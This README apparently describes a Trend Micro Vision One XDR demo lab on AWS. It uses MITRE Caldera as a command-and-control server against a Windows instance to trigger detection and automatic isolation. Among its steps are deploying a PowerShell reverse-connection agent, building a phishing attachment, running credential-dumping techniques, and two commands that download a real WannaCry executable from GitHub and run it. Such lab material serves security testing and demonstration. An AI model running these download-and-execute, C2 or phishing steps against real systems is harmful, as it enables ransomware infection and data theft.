 # Trend Micro Vision One Demo

__Requirements:

Windows/Mac/Linux OS
- AWS Account
- RDP/SSH Client
- Google Chrome or Mozilla Firefox

__Prepaing the Demo Environment:

- Deploy the Cloud Formation Template (Make sure you are using the us-west-1 region). The following information has to be provided:

-Stack name - Name of the stack you are creating (example XDR-Demo)

-KeyName - KeyPar to be used when creating the EC2 Instances

-Platform - Select the appropriate platform (VisionOne, C1WS or ApexOne). Based on your selection, the following information has be provided

--PlatformURL - If you selected ApexOne or VisionOne, add the AgentInstallationURL (ApexOne Agent Installer or VisionOne Basecamp)

--TenantID and Token - If you selected C1WS, you have to get the TennantID and Token to be used installing and activating the agent. You can get this information using the C1WS > Deployment Scripts

__Testing the demo environment

After the CFT deployment is finished, you need to access the Windows Instance using RDP. You can get the credentials following the procedure described here https://docs.aws.amazon.com/AWSEC2/latest/WindowsGuide/connecting_to_windows_instance.html

After connecting to your RDP Session, make sure you can access the Caldera Management Console (http://linux-ip). username/password - admin/admin)

Also, you must make sure the Windows Instance is registered in your VisionOne/ApexOne/C1WS Management Console. Also, make sure the EDR feature is enabled (This will require a specific policy -for ApexOne or C1WS- or the EDR feature to be enabled manually, in case you are using VisionOne).

Using the VisionOne Portal, you must make sure that you have created a Secure Access Rule to automatically isolate devices with a (persistent) Risk Level of 60 or Higher (once matched).

__What to expect from this demo!

This demo script was created to demonstrate the following use case:
+ Attacker trying to get the control of an Windows Instance
+ Attacker is using Mitre Caldera as C&C Server
++ Using Mitre Caldera, the Attacker will generate one malicious payload (powershell). This malicious payload will generate a reverse connection between the Windows Instance and the C&C Server.
++ The Attacker, using the Mitre Caldera, will use the tools available on Mitre Caldera to start checking some conditions and extracting sensitive data from the Windows Computer
++ The Trend Micro XDR agent is monitoring all the actions happening to the Windows Computer. The Risk Level of this device is increasing and it is becoming of of the riskiest devices of this demo environment.
++ The attacker will finish the attack encrypting the Windows Device, to make the impact of this attack even bigger.
++ Because of the policies in place, once the device' risk level reaches 60, the Windows Device will be automatically isolated.

__How to demo

1- Open the RDP Session and show the basecamp components running on background;

2- Open the VisionOne Dashboard, and show the Actual Risk Level of this Windows Computer;

3- Open the Mitre Caldera Management Console, and create a new malicious payload

--Navigate > Agents > Click Here to Deploy an Agent > Select the "54ndc47" agent and Select the Windows Platform

--Replace the "app.contact.http" information with the Linux IP Address (example http://linux-ip)

--Copy the Powershell script created for this agent


4- Execute the powershell script on the Windows Instance

Optional (in case you want to demonstrate it in conjunction with CAS)

4- Access the following website https://ps2exe.azurewebsites.net/ and generate an executable file using the powershell script you've copied in the previous step

4.1- Send an email with the malicious attachment to the target user

5- After you execute the PS script on the Windows Instance, you will find a new Client connected to the Mitre Caldera Portal (You can find it on Navigate > Agents menu)

6- Now selecte the Navigate > Operations menu. We will use this option to start the operation following that Demo Script described previously on this page.

7- Select the New Operation (name it as DemoXDR)

8- Select the option Manual Command > Select your Agent > Run the command "Hostname". You will notice that after 1 minute +- the status of this request will become green. That means the command was executed successfuly. You can check the output clicking on the "star" icon, in the right side of the command you executed.

9- Now select the option named "Potential Links". Using this option you can search through the Mitre Techniques, and test them as you believe will generate the best impact (based on the objectives you have for this demo).

10- The following Mitre Techniques can help you to increase the risk level of the Windows Machine quickly, so if you want, this could be the best path to follow and have the Automated Response actions triggered.

10.1- T1059.001, T1059.001, T1113, T1115, T1105, T1105, T1003.001, T1055.002, T1003.001, T1059.001, T1059.001, T1548.002, T1496, T1491

11- Check the VisionOne Portal, wait for the new logs (+-5 minutes) and look to the Risk Level of the Windows Instance. The number is increasing, right?

12- Check now the Observed Attack Techniques and the Workbenches. You will also find many detections! Its a good moment to show to your customer how to investigate and find what was detected or not by VisionOne.

13- After you showed all the information detected by VisionOne, it's time to drop the Ransomware file to the Windows Machine, and make sure the ransomware was executed successfuly.

13.1- To do that, select the Navigate > Operations. Create a new Operation named Ransomware.

13.2- Select the "Manual Command" Option, Select your target, then select the PS> interpreter.

13.3- Run the following commands "Invoke-WebRequest -Uri https://github.com/limiteci/WannaCry/raw/main/WannaCry.EXE -OutFile wcry.exe"

14.4- After the first command was successfuly executed, run the next command "Start-Process wcry.exe"

15- If you check the Windows Instance a few seconds later, you will find the machine is encrypted. In a 5 minutes period of time, if the Secure Access Rules you've created is enabled, you should lost the RDP Access to your Windows Instance. That means the VisionOne was able to detect the changes on the Risk Level, and then followed with the automated isolation for any devices with risk level >=60.

16- You can check the detection logs and actions using the VisionOne Portal. You can go through the Device Risk Level, Workbenches, Observed Attack Techniques and Response Management menus, which will highlight all the detections and actions takes due to this new high risk computer detected during this demo.






